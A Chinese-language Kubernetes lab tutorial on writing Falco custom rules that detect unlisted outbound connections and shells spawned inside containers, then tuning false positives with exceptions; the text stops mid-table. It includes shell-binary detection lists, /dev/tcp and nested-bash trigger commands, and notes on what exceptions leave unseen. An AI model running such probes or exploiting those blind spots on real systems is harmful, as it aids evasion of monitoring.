



Day 4: Falco 自訂規則——補上預設規則的空白，調校誤報並說出例外的代價¶
Day 3 留下兩個空白：從容器連 8.8.8.8，連線成功，預設規則一筆都沒報；容器裡已經在跑的程式再開一個 shell，預設規則也看不到。這一章自己寫兩條規則把它們補上。
規則寫好、也命中了，接下來的問題比較難處理。假設你的規則是「容器只准連允許清單上的位址」，而叢集裡有一顆只執行正常請求的 Pod，每 2 秒呼叫一次叢集內的服務。這條規則每分鐘會因為它報 180 筆告警。加上兩條例外，告警就歸零；可是同一個容器如果把 /etc/shadow 的內容塞進請求，送到同一個服務，規則一樣不會報。
讀完這一章，遇到一條很吵的自訂規則時，你能找出誤報是從哪裡放大出來的；決定加一條例外之前，你能說出這條例外會讓哪些連線從此不被這條規則看見。
開始之前¶
這一章接著 Day 3 的環境做：Falco 的 helm release falco（chart 9.1.0）、ebpf-lab namespace 裡的 baseline-nginx、Day 3 的 falco-values.yaml 與 falco-alerts.sh 都要還在。這一章寫的規則只看 ebpf-lab 這個 namespace。
步驟 1：規則 A，只准連允許清單上的位址¶
Day 3 的「從容器連到沒連過的位址，Falco 沒報」試過：從 baseline-nginx 連 8.8.8.8:53，Falco 零告警。預設規則裡跟網路有關的幾條，描述的都是具體的攻擊手法，沒有一條在問「這個容器以前有沒有連過這裡」。Day 2 用 bpftrace 做的手工基線問的正是這件事：把容器平常連的位址記下來，多出一筆沒見過的，就請人判斷。
規則 A 把這份基線寫成 Falco 規則。baseline-nginx 唯一的上游是 1.1.1.1，所以允許清單只有這一項：
cat > custom-rules.yaml <<'EOF'
# --- Rule A: outbound connections to peers outside the allow list ---
# Layer 1: plain data. This list IS the baseline.
- list: ebpf_lab_allowed_peers
items: [1.1.1.1]
# Layer 2: named condition fragments.
- macro: ebpf_lab_workload
condition: (k8s.ns.name = "ebpf-lab")
- macro: lab_outbound_connect
condition: >
(evt.type = connect
and (fd.typechar = 4 or fd.typechar = 6)
and (evt.rawres >= 0 or evt.res = EINPROGRESS))
- macro: connection_to_unlisted_peer
condition: (lab_outbound_connect and not fd.sip in (ebpf_lab_allowed_peers))
# Layer 3: the rule.
- rule: Unexpected outbound connection from lab workload
desc: A workload in the lab namespace connected to a peer that is not on the allow list.
condition: ebpf_lab_workload and container and connection_to_unlisted_peer
output: >
Outbound connection to unlisted peer
(peer=%fd.sip:%fd.sport proto=%fd.l4proto proc=%proc.name cmd=%proc.cmdline
pod=%k8s.pod.name ns=%k8s.ns.name container=%container.name
image=%container.image.repository)
priority: WARNING
tags: [network, custom, sprint2_day4, mitre_command_and_control, T1071]
EOF
Day 3 拆過這三層的形狀，這裡說每一層為什麼要分開：
list是最常改的部分。 應用多一個上游依賴，改的是items，macro與rule一個字都不用動。把 IP 直接寫進condition的規則，每次改都要重讀整條布林運算式。macro讓condition讀起來像一句話。ebpf_lab_workload and container and connection_to_unlisted_peer這一行說的是要抓什麼；evt.rawres >= 0 or evt.res = EINPROGRESS（連線成功，或非阻塞連線正在建立中）這類細節收進 macro 裡。fd.typechar = 4 or fd.typechar = 6是「這個 fd 是 IPv4 或 IPv6 的 socket」，把檔案、pipe 這類 fd 排除掉。rule只剩三件事：什麼情況、報什麼、多嚴重。
tags 裡的 mitre_command_and_control 和 T1071 是 MITRE ATT&CK 的分類。MITRE ATT&CK 是一份公開的攻擊手法目錄，每種手法有一個編號，T1071 指「透過一般的應用層協定跟外部的控制端通訊」。預設規則也帶這類標籤，告警送到下游之後，可以照手法分類統計。
為什麼不直接用預設的 outbound macro¶
預設規則檔裡已經有一個叫 outbound 的 macro，看名字正好是規則 A 要的東西。先把它展開來看。這一章的指令裡，<falco-pod> 要換成任一顆 Falco pod 的名字，從這裡挑一個 falco- 開頭的：
然後在那顆 pod 裡印出 outbound：
$ kubectl -n falco exec <falco-pod> -c falco -- grep -A9 '^- macro: outbound$' /etc/falco/falco_rules.yaml
- macro: outbound
condition: >
((evt.type = connect or …) and
(fd.typechar = 4 or fd.typechar = 6) and
(fd.ip != "0.0.0.0" and fd.net != "127.0.0.0/8"
and not fd.snet in (rfc_1918_addresses)) and ← 這一行
(evt.rawres >= 0 or evt.res = EINPROGRESS))
標了箭頭的那一行是 not fd.snet in (rfc_1918_addresses)：目的地在私有網段（RFC 1918 定義的 10.0.0.0/8、172.16.0.0/12、192.168.0.0/16）就不算 outbound。本課的 AKS 叢集，Pod 位址在 10.244.0.0/16，Service 位址在 10.0.0.0/16，都是私有網段。所以這一行等於把 pod 對 pod、pod 對 Service、pod 對 CoreDNS 的流量全部排除。
預設規則要抓的是容器連到外面的可疑位址，排除內網說得通。規則 A 要抓的是容器連了沒連過的地方，叢集內的服務也包含在內：攻擊者拿下一個容器之後，往叢集內其他服務移動（橫向移動）也是要抓的行為。所以 lab_outbound_connect 照著 outbound 的寫法自己拼一份，刻意不放那一行。
複用 outbound 會怎樣，到步驟 4 量完誤報就看得出來：那些誤報一筆都不會出現，叢集內的連線也一起看不到了。
步驟 2：規則 B，抓容器裡的程式再開的 shell¶
Day 3 的「容器裡的程式再開 shell，Terminal shell in container 不報」：預設的 Terminal shell in container 要求 shell 的父行程是容器執行期（runc、containerd-shim、conmon 這類負責把容器跑起來的程式），所以只抓得到 kubectl exec 直接開的那一層 shell。容器裡已經在跑的程式再開 shell，一筆都不報。web shell 就是這種情況：攻擊者把一支程式放進網站，透過 HTTP 請求叫它執行指令，指令由網站程式開的 shell 去跑。
規則 B 用同一組 shell 執行檔，把父行程的條件反過來：父行程不是容器執行期才報。tags 裡的 mitre_execution、T1059 一樣是 MITRE ATT&CK 的分類，T1059 指「用命令列直譯器（shell、腳本語言）執行指令」。
cat >> custom-rules.yaml <<'EOF'
# --- Rule B: the complement of the shipped container_entrypoint condition ---
- list: lab_shell_binaries
items: [ash, bash, csh, ksh, sh, tcsh, zsh, dash]
- macro: container_runtime_parent
condition: >
(proc.pname in (runc:[0:PARENT], runc:[1:CHILD], runc, docker-runc, exe,
docker-runc-cur, containerd-shim, systemd, crio, conmon))
- rule: Shell spawned by non-runtime parent in container
desc: A shell was spawned by a process already running inside the container.
condition: >
spawned_process and container
and k8s.ns.name = "ebpf-lab"
and proc.name in (lab_shell_binaries)
and proc.pname exists
and not container_runtime_parent
output: >
Shell spawned by a non-runtime parent
(shell=%proc.name parent=%proc.pname gparent=%proc.aname[2] tty=%proc.tty
cmd=%proc.cmdline pod=%k8s.pod.name ns=%k8s.ns.name container=%container.name)
priority: WARNING
tags: [shell, custom, sprint2_day4, mitre_execution, T1059]
EOF
有兩個地方跟預設規則刻意不同：
condition裡沒有proc.tty != 0。 預設規則有這一項，所以沒有終端機的 shell 它不報（Day 3 的「用kubectl exec -t開 shell，Falco 沒報」）。web shell 沒有終端機，加了這個條件，等於把要抓的對象排除掉。代價是規則 B 也會報沒有終端機的自動化腳本。proc.pname exists不能省。 父行程可能先退出，這時proc.pname是空的。container_entrypoint的第一項就是處理這種情況的not proc.pname exists；規則 B 如果不要求父行程存在，父行程為空的事件會落進not container_runtime_parent，被誤判成「父行程不是容器執行期」。
步驟 3：把規則交給 Falco，同時打開告警出口¶
先準備接收告警的地方¶
到目前為止，Falco 的告警只寫在 pod 的標準輸出裡，falco-alerts.sh 就是從那裡撈。實際使用時，告警要送到聊天頻道、呼叫器或日誌平台。Falco 官方負責轉送的元件叫 Falcosidekick：它接收 Falco 送來的告警，再依設定轉送出去，一份輸入可以同時送到好幾個目的地。
聊天頻道、呼叫器這類目的地都需要 token 或密碼，教材不放憑證，所以這裡的目的地是叢集內一顆自己寫的接收端：一個 python http.server，收到 POST 就回 200，並把收到的 JSON 印到自己的標準輸出。先把它建起來，Falcosidekick 一啟動就有地方送，步驟 4 的測試 pod 也會連它：
cat > webhook-receiver.yaml <<'EOF'
apiVersion: v1
kind: ConfigMap
metadata:
name: webhook-receiver-src
namespace: falco
data:
receiver.py: |
import json
from http.server import BaseHTTPRequestHandler, HTTPServer
class Handler(BaseHTTPRequestHandler):
def do_POST(self):
body = self.rfile.read(int(self.headers.get("Content-Length", 0)))
try:
print("RECEIVED", json.dumps(json.loads(body)), flush=True)
except json.JSONDecodeError:
print("RECEIVED(raw)", body.decode("utf-8", "replace"), flush=True)
self.send_response(200)
self.end_headers()
def do_GET(self):
self.send_response(200)
self.end_headers()
self.wfile.write(b"ok")
def log_message(self, *args):
pass
HTTPServer(("", 8080), Handler).serve_forever()
---
apiVersion: apps/v1
kind: Deployment
metadata:
name: webhook-receiver
namespace: falco
spec:
replicas: 1
selector:
matchLabels: { app: webhook-receiver }
template:
metadata:
labels: { app: webhook-receiver }
spec:
containers:
- name: receiver
image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
command: ["python3", "-u", "/src/receiver.py"]
ports:
- containerPort: 8080
volumeMounts:
- { name: src, mountPath: /src }
resources:
requests: { cpu: 10m, memory: 32Mi }
volumes:
- name: src
configMap: { name: webhook-receiver-src }
---
apiVersion: v1
kind: Service
metadata:
name: webhook-receiver
namespace: falco
spec:
selector: { app: webhook-receiver }
ports:
- port: 8080
targetPort: 8080
EOF
kubectl apply -f webhook-receiver.yaml
在 values 裡打開 Falcosidekick¶
在 Day 3 的 falco-values.yaml 後面加上這一段：
falcosidekick:
enabled: true
webui:
enabled: false
resources:
requests: { cpu: 20m, memory: 32Mi }
limits: { cpu: 200m, memory: 128Mi }
config:
debug: true
webhook:
address: "http://webhook-receiver.falco.svc.cluster.local:8080/"
minimumpriority: "notice"
falcosidekick.enabled: true 打開之後，chart 會自動把 Falco 的 http_output（Falco 用 HTTP 往外送告警的輸出）指到 sidekick 的 Service，不必另外改 Falco 的設定。Falco 的標準輸出照樣寫，所以 falco-alerts.sh 不用改。
另外幾個值：
webui.enabled: false：sidekick 的 Web UI 會另外部署一個 Redis 和一個 UI 服務，用途是在瀏覽器上翻告警列表。這一章沒有步驟用得到，所以關掉，少兩顆 pod。resources：設定 sidekick 的 CPU 與記憶體 requests、limits，上面的 values 已經包含這些設定。minimumpriority: "notice"：只把 notice 以上的告警送到這個 webhook，每個目的地可以各自設門檻。本課的實驗沒有產生低於 notice 的事件，所以門檻有沒有擋下低等級的告警，沒有實際驗證。
一次 helm upgrade 交出規則和設定¶
Falco 的 chart 用 customRules 接收自訂規則。它是一個 map：key 是檔名，value 是檔案內容。chart 把它做成一個 ConfigMap，掛進 pod 的 /etc/falco/rules.d/。規則不要貼進 values 的 YAML 字串裡，用 --set-file 從獨立的檔案送：
helm upgrade falco falcosecurity/falco --version 9.1.0 -n falco \
-f falco-values.yaml \
--set-file 'customRules.custom-rules\.yaml'=custom-rules.yaml
這樣規則檔是一份獨立的檔案，可以單獨檢查語法、單獨看 diff。檔名裡的點要跳脫（custom-rules\.yaml），否則 Helm 會把它當成兩層 key。
這次升級改到了規則的 ConfigMap，Falco 的 DaemonSet 會一個節點接一個節點重啟，每個節點重啟期間有幾十秒沒有監控。之後每次改規則都會這樣，原因見疑難排解：只改規則內容，整個 DaemonSet 也重啟一遍。
每次 helm upgrade 成功後，先等待 Falco 滾動完成，再重新取得 Pod 名稱、檢查規則檔與所有 Falco Pod 的載入日誌（依官方文件補上，本課沒有實跑）：
(
set -eu
kubectl -n falco rollout status daemonset/falco --timeout=5m
FALCO_POD=$(kubectl -n falco get pods \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-o jsonpath='{.items[0].metadata.name}')
kubectl -n falco exec "$FALCO_POD" -c falco -- \
ls -la /etc/falco/rules.d/
kubectl -n falco logs \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-c falco --tail=-1 --prefix=true |
sed -n '/Loading rules from/,/syscall buffer/p'
)
等待失敗就停止，不繼續觸發事件或量測；等待成功後，依日誌的 Pod 前綴逐顆確認自訂規則的載入紀錄與警告，DaemonSet 滾動完成本身不代表規則符合預期。
寫法依據 Kubernetes 1.35 的 DaemonSet 滾動更新、kubectl get、kubectl exec 與 kubectl logs 文件；資源名稱與 selector 對照 Falco chart 9.1.0 範本。
升級完成後，進 Falco 的 pod 看規則檔：
$ kubectl -n falco exec <falco-pod> -c falco -- ls -la /etc/falco/rules.d/
lrwxrwxrwx custom-rules.yaml -> ..data/custom-rules.yaml
drwxr-xr-x ..2026_08_06_11_08_32.3345389208
lrwxrwxrwx ..data -> ..2026_08_06_11_08_32.3345389208
custom-rules.yaml 指向 ..data/，..data 再指向一個帶時間戳的目錄。這兩層 symlink 是 ConfigMap 掛成 volume 時的標準結構，更新時 Kubernetes 一次換掉整個目錄，Falco 不會讀到改到一半的檔案。
Falco 從哪些位置讀規則，寫在 falco.yaml 的 rules_files：
$ kubectl -n falco exec <falco-pod> -c falco -- grep -A4 rules_files /etc/falco/falco.yaml
rules_files:
- /etc/falco/falco_rules.yaml
- /etc/falco/falco_rules.local.yaml
- /etc/falco/rules.d
| 位置 | 誰放的 | 說明 |
|---|---|---|
falco_rules.yaml |
init 容器在 pod 啟動時下載（規則檔跟容器映像一樣放在 OCI registry 上，用同一套格式發佈） | 預設的 25 條。不要手改，下次拉新版就被蓋掉 |
falco_rules.local.yaml |
傳統上留給人手動編輯的本機覆寫檔 | 這個映像裡沒有這個檔案。rules_files 裡不存在的項目，Falco 直接跳過，不顯示錯誤 |
rules.d/ |
chart 的 customRules |
這一章的規則在這裡 |
清單由上往下解析，名字重複時，後解析的會蓋過先解析的。規則 A、B 都是新的名字，跟預設規則沒有重名，所以預設的 25 條一條都沒被動到。Day 5 要拿 Tetragon 跟 Falco 對照，預設規則保持原樣，對照才有共同的基準。
確認規則真的載入了¶
helm upgrade 成功，只代表 ConfigMap 寫進去了、pod 重建了；helm 不會檢查規則的內容。規則有沒有載入，要看 Falco pod 自己的啟動日誌。每個規則檔會列一行，附上 schema 驗證的結果：
下面保留原指令與輸出。這條指令帶了 selector（-l），依 kubectl 官方文件，預設每顆 Pod 只取最後 10 行，可能看不到啟動訊息。讀取時應在 -c falco 後加上 --tail=-1；修正後的寫法本課沒有實跑。
$ kubectl -n falco logs -l app.kubernetes.io/name=falco -c falco | sed -n '/Loading rules from/,/syscall buffer/p'
Loading rules from:
/etc/falco/falco_rules.yaml | schema validation: ok
/etc/falco/rules.d/custom-rules.yaml | schema validation: ok ← 自訂規則在這裡
The chosen syscall buffer dimension is: 8388608 bytes (8 MBs)
custom-rules.yaml 那一行要在，而且下面直接接 The chosen syscall buffer dimension，中間不能夾著 warning 區塊。如果看到 Ok, with warnings，先閱讀 warning 內容，確認規則使用的欄位與條件是否符合目前版本。
告警現在怎麼走¶
把這次升級之後的告警路徑畫出來，左邊是三個節點上的 Falco，右邊是接收端：

圖上有兩點跟後面的步驟有關：
- Falco 是 DaemonSet，每個節點一份。某個節點的 Falco 出問題，只影響那一個節點。
- Falcosidekick 是 Deployment，所有節點的告警都經過它。sidekick 停了，Falco 照樣偵測、DaemonSet 照樣顯示健康，卻沒有任何告警送得出去。
圖上標的證據 1、2、3，步驟 7 會一一去查。
步驟 4：放一顆正常的 pod 進來¶
規則 A 把「不在清單上的對端」都當成可疑。叢集裡一顆正常的 pod 平常要連的東西，比寫規則時想到的多。先放一顆只執行正常請求的 Pod 進去：它解析叢集內的服務名稱、GET 步驟 3 建的接收端、睡 2 秒，一直重複。
這顆 pod 引起的告警就是誤報（false positive）：規則報了，但它要抓的事並沒有發生。
cat > legit-client.yaml <<'EOF'
apiVersion: v1
kind: Pod
metadata:
name: legit-client
namespace: ebpf-lab
spec:
containers:
- name: client
image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
command: ["python3", "-u", "-c"]
args:
- |
import time, urllib.request
while True:
try:
urllib.request.urlopen(
"http://webhook-receiver.falco.svc.cluster.local:8080/ping").read()
except Exception as exc:
print("request failed:", exc, flush=True)
time.sleep(2)
resources:
requests:
cpu: 10m
memory: 32Mi
EOF
kubectl apply -f legit-client.yaml
量告警率時，要先記錄起點、等待 120 秒、記錄終點，再用每筆告警自己的時間戳篩選同一個時間區間，按規則名稱計數。只靠 kubectl logs --since，各顆 Pod 的查詢時間會錯開。
下面保留原腳本供對照，請使用下一個區塊的量測版本。原腳本回查過去的資料，沒有等待兩分鐘；其中 logs -l 又預設每顆 Pod 只取最後 10 行。若沿用 selector 讀取，應加上 --tail=-1，修正後的寫法本課沒有實跑。後面補入的實跑版本會等待指定秒數，再逐顆指定 Pod 讀取，並用共同的起訖時間篩選告警：
cat > alert-rate.sh <<'EOF'
#!/usr/bin/env bash
# Count Falco alerts inside a fixed window, using each alert's own timestamp.
# kubectl --since is evaluated per pod, so two Falco pods would use skewed windows.
set -euo pipefail
SECS="${1:-120}"
START=$(date -u -v-"${SECS}"S +%Y-%m-%dT%H:%M:%SZ 2>/dev/null \
|| date -u -d "-${SECS} seconds" +%Y-%m-%dT%H:%M:%SZ)
END=$(date -u +%Y-%m-%dT%H:%M:%SZ)
echo "window start $START, ${SECS}s"; echo "window end $END"
LINES=$(kubectl -n falco logs -l app.kubernetes.io/name=falco -c falco \
--since="$((SECS + 30))s" --prefix=false 2>/dev/null | grep '"rule"' || true)
IN=$(echo "$LINES" | awk -v s="$START" -v e="$END" \
'match($0,/"time":"[^"]*"/){t=substr($0,RSTART+8,RLENGTH-9); if(t>=s&&t<=e) print}')
N=$(echo "$IN" | grep -c . || true)
echo "--- $N alert(s) in ${SECS}s = $(echo "scale=1; $N*60/$SECS" | bc) alerts/min"
echo "$IN" | sed -n 's/.*"rule":"\([^"]*\)".*/\1/p' | sort | uniq -c | sort -rn
EOF
chmod +x alert-rate.sh
將下列內容存成 alert-rate.sh，再用上方的 chmod +x alert-rate.sh 設定執行權限。這是驗證素材 06-alert-rate.sh 的內容，僅省略註解；下方調校前後的 120 秒結果使用這個版本量測。腳本需要本機有 Python 3：
#!/bin/bash
set -u
W="${1:-60}"
FILTER="${2:-}"
K="${KUBECTL:-kubectl}"
NS="${FALCO_NS:-falco}"
start_epoch=$(date -u +%s)
echo "window start $(date -u +%FT%TZ), ${W}s"
sleep "$W"
end_epoch=$(date -u +%s)
echo "window end $(date -u +%FT%TZ)"
tmp=$(mktemp)
for p in $($K -n "$NS" get pods -l app.kubernetes.io/name=falco -o name | sed 's#pod/##'); do
$K -n "$NS" logs "$p" -c falco --since "$((W + 20))s" 2>/dev/null | grep '"priority"' >> "$tmp"
done
python3 - "$tmp" "$start_epoch" "$end_epoch" "$FILTER" <<'PY'
import json, sys, datetime, collections
path, s, e, filt = sys.argv[1], int(sys.argv[2]), int(sys.argv[3]), sys.argv[4]
hits = collections.Counter()
total = 0
for line in open(path):
try:
a = json.loads(line)
except Exception:
continue
t = a["time"][:19]
ep = datetime.datetime.strptime(t, "%Y-%m-%dT%H:%M:%S").replace(
tzinfo=datetime.timezone.utc).timestamp()
if not (s <= ep <= e):
continue
if filt and filt not in a["rule"]:
continue
hits[a["rule"]] += 1
total += 1
win = e - s
print(f"--- {total} alert(s) in {win}s = {total * 60.0 / win:.1f} alerts/min")
for r, c in hits.most_common():
print(f"{c:6d} {r}")
PY
rm -f "$tmp"
一顆每 2 秒發一次請求的 pod，每分鐘是 30 次請求。量兩分鐘：
$ ./alert-rate.sh 120
window start 2026-08-06T11:10:51Z, 120s
window end 2026-08-06T11:12:51Z
--- 360 alert(s) in 120s = 180.0 alerts/min
360 Unexpected outbound connection from lab workload
每分鐘 180 筆，是請求數的六倍。
180 筆從哪裡來¶
把這兩分鐘的告警依對端分組，每一列是筆數和（對端 IP、port、協定、行程）：
150 ('10.0.0.10', 53, 'udp', 'python') ← CoreDNS
30 ('10.0.47.134', 8080, 'tcp', 'python') ← 目標 Service 的 ClusterIP
連到接收端 ClusterIP（Service 在叢集內的虛擬 IP）的 TCP 是 30 筆，一次請求一條，跟預期一樣。多出來的 150 筆都連到 CoreDNS（叢集的 DNS 伺服器，10.0.0.10）的 UDP 53，平均每次請求 5 筆。
要確認 DNS 查詢順序，用 kubectl exec 進入 legit-client，執行 cat /etc/resolv.conf，查看 search 清單與 ndots 設定。以下是格式示意，你的 search 清單可能包含其他網域：
search 是一份網域清單：要查的名字如果不夠「完整」，解析器會先把清單裡的網域依序接在名字後面去查。ndots:5 定義了什麼叫不夠完整：名字裡的點少於 5 個。webhook-receiver.falco.svc.cluster.local 只有 4 個點，所以解析器先把 search 清單裡的網域逐一接上去查，都查不到，最後才查原本的名字。
照著順序畫出來，由上往下是時間順序：

照著圖由上往下看：應用程式只發了一次請求，解析器卻對 CoreDNS 查了好幾個名字。每查一個名字都會開一個 UDP socket 並呼叫 connect()；UDP 的 connect() 一樣是 connect 系統呼叫，規則 A 看的就是它，所以每一次都算一筆。實測每次請求是 5 次 connect()，每一次各對應哪一個名字，本課沒有逐筆拆開確認。
這個倍數由叢集的 DNS 設定決定，跟應用程式怎麼寫無關：同一支程式換一個 namespace、連一個名字長度不同的 Service，倍數就會變。在 Kubernetes 上估計一條網路規則會報多少，要先把 DNS 查詢算進去。
步驟 5：在有誤報的環境裡測試命中¶
legit-client 繼續跑著。現在做 Day 3 那兩個預設規則沒報的動作。
規則 A：連 8.8.8.8¶
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c 'exec 3<>/dev/tcp/8.8.8.8/53 && echo connect-ok'
connect-ok
Falco 對這個動作輸出的告警（節錄）：
{
"rule": "Unexpected outbound connection from lab workload",
"priority": "Warning",
"hostname": "<node-a>",
"tags": ["T1071","custom","mitre_command_and_control","network","sprint2_day4"],
"output_fields": {
"fd.sip": "8.8.8.8", "fd.sport": 53, "fd.l4proto": "tcp",
"proc.name": "bash",
"proc.cmdline": "bash -c exec 3<>/dev/tcp/8.8.8.8/53 && echo connect-ok",
"container.id": "41ae0eb6f163", "container.name": "nginx",
"k8s.pod.name": "baseline-nginx", "k8s.ns.name": "ebpf-lab"
}
}
這就是 Day 3 零告警的那個動作。Day 2 的手工基線只能告訴你「連線清單多了一個沒見過的位址」；現在它是一筆有名字的 Warning，帶著對端、指令、pod 名稱和 T1071 的分類。
規則 B：用 & fork 出第二層 shell¶
驗證規則 B，要讓容器裡的 shell 真的再生一個 shell。Day 3 試過巢狀的 bash -c '<單一指令>'，結果會誤導：-c 後面只有一個指令時，bash 會直接 exec 那個指令，用它取代自己（implicit exec），內層 shell 換掉了外層，父行程還是容器執行期。要真的 fork 出子行程，得在內層指令後面加 &。外面包 script -q /dev/null 是為了配到終端機，跟 Day 3 的作法一樣：
$ script -q /dev/null kubectl -n ebpf-lab exec -it baseline-nginx -- \
bash -c 'bash -c "echo forked-shell-ran" & wait; echo done'
forked-shell-ran
done
這一次動作有兩次 bash 的 execve，兩條規則各報一筆：
| 規則 | proc.name |
proc.pname |
proc.tty |
|---|---|---|---|
Terminal shell in container（預設） |
bash | containerd-shim | 34816 |
Shell spawned by non-runtime parent in container（自訂） |
bash | bash | 34816 |
預設規則抓到第一層，它的父行程是 containerd-shim；規則 B 抓到 fork 出來的第二層，它的父行程是 bash。Day 3 那次「2 次 execve 只有 1 筆告警」，現在兩次都有告警了。
沒有終端機的 web shell¶
上面那次包了 script，fork 出來的 shell 繼承了終端機，所以 proc.tty 是 34816。web shell 是網站程式在背景開的，沒有終端機。把 script 和 -it 拿掉再做一次。下面的輸出把 falco-alerts.sh 撈到的 JSON 整理成一行一筆，只列跟 shell 有關的規則：
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c 'bash -c "echo webshell-no-tty" & wait; echo done'
webshell-no-tty
done
$ ./falco-alerts.sh --since 15s
Shell spawned by non-runtime parent in container proc=bash pname=bash tty=0 cmd=bash -c echo webshell-no-tty
--- 預設規則: 0 筆 ---
這次預設規則一筆都沒報：第一層沒有終端機，proc.tty != 0 不成立；第二層的父行程是 bash，不符合 container_entrypoint。腳本化、沒有終端機的入侵，預設的 shell 規則完全看不到。規則 B 報了，而且 tty=0 可以用來分辨它跟真人用 kubectl exec -it 開的 shell。
同一段時間，規則 A 還在替 legit-client 報誤報：這次測試前後 12 秒內有 36 筆。真正的 web shell 告警只有一筆，夾在這 36 筆中間。這些告警如果全部送進值班頻道，那一筆很容易被漏看。
步驟 6：用 exceptions 調校，並找出例外放行了什麼¶
寫兩條例外¶
誤報來自兩個對端：CoreDNS 的 UDP 53，以及接收端 Service 的 TCP 8080。Falco 規則有一個 exceptions 欄位，專門寫例外：每條例外有一個名字，fields 列出要比對的欄位，comps 是比對方式，values 是要放行的值。Falco 載入規則時，會把每條例外轉成一段 and not (...)，接在 condition 後面。
在 custom-rules.yaml 裡規則 A（- rule: Unexpected outbound connection from lab workload）的最後，tags 那一行下面，加上 exceptions 這一段。下面的片段省略了規則 A 原本的欄位，只是標出位置：
- rule: Unexpected outbound connection from lab workload
# …condition / output / priority 不變…
exceptions:
- name: cluster_dns_resolution
fields: [fd.sip, fd.sport, fd.l4proto]
comps: [=, =, =]
values:
- ["10.0.0.10", 53, udp]
- name: known_internal_services
fields: [fd.sip, fd.sport, fd.l4proto]
comps: [=, =, =]
values:
- ["10.0.47.134", 8080, tcp]
10.0.0.10 和 10.0.47.134 是本課叢集的值，照抄不會有作用，要換成你叢集裡的值：CoreDNS 是 kube-system namespace 的 kube-dns Service，接收端是 falco namespace 的 webhook-receiver Service，兩個都用 kubectl get svc -n <namespace> 的 CLUSTER-IP 欄查。步驟 4 依對端分組的結果裡，也看得到這兩個 IP。
效果跟直接在 condition 尾巴接 and not (fd.sip = "10.0.0.10" and …) 一樣，差別在日後的維護：
塞進 condition |
用 exceptions |
|
|---|---|---|
| 有名字 | 沒有。半年後看到 and not (fd.sip="10.0.0.10" …)，沒人知道為什麼加、誰加的 |
name: cluster_dns_resolution 就說明了理由，稽核時可以逐條問「這條還需要嗎」 |
| 可追加 | 新增一個豁免對端，必須改原檔裡那條布林運算式 | 可以在另一個檔案裡只追加 values，原規則檔一個字不動 |
| 好審查 | diff 是「一行超長條件變成另一行更長的條件」 | diff 是「某條具名例外多了一列 values」，一眼看得出放行範圍擴大了多少 |
| 有結構 | 純文字 | fields／comps／values 有固定結構，可以用程式檢查，例如禁止任何例外拿整段 CIDR 當值 |
多個團隊需要分別維護例外時，可以參考章末延伸閱讀的覆寫與追加語法。
例外也不一定要逐一列 IP：comps 可以用 in，配合 fd.snet 這類欄位一次放行整個網段。這樣寫起來省事，放行的範圍也跟著變大。
改好 custom-rules.yaml，重跑步驟 3 的 helm upgrade 指令。這次只有規則內容變了，DaemonSet 還是會整個滾動一遍（疑難排解：只改規則內容，整個 DaemonSet 也重啟一遍）。
調校後的 helm upgrade 成功後，先等待滾動完成，再重新取得 Pod 名稱、檢查規則檔與載入日誌（依官方文件補上，本課沒有實跑）：
(
set -eu
kubectl -n falco rollout status daemonset/falco --timeout=5m
FALCO_POD=$(kubectl -n falco get pods \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-o jsonpath='{.items[0].metadata.name}')
kubectl -n falco exec "$FALCO_POD" -c falco -- \
ls -la /etc/falco/rules.d/
kubectl -n falco logs \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-c falco --tail=-1 --prefix=true |
sed -n '/Loading rules from/,/syscall buffer/p'
)
等待失敗就停止，不繼續觸發事件或量測；等待成功後，依日誌的 Pod 前綴逐顆確認自訂規則的載入紀錄與警告，DaemonSet 滾動完成本身不代表規則符合預期。
調校後的告警率¶
legit-client 一直在跑，流量跟之前一樣。使用步驟 4 補入的量測版本，重新記錄起點並等待 120 秒，再計算調校後的告警率：
$ ./alert-rate.sh 120
window start 2026-08-06T11:16:11Z, 120s
window end 2026-08-06T11:18:11Z
--- 0 alert(s) in 120s = 0.0 alerts/min
真正的偏離照樣報。重做步驟 5 的動作，對照調校前後：
| 調校前 | 調校後 | |
|---|---|---|
legit-client 正常流量 |
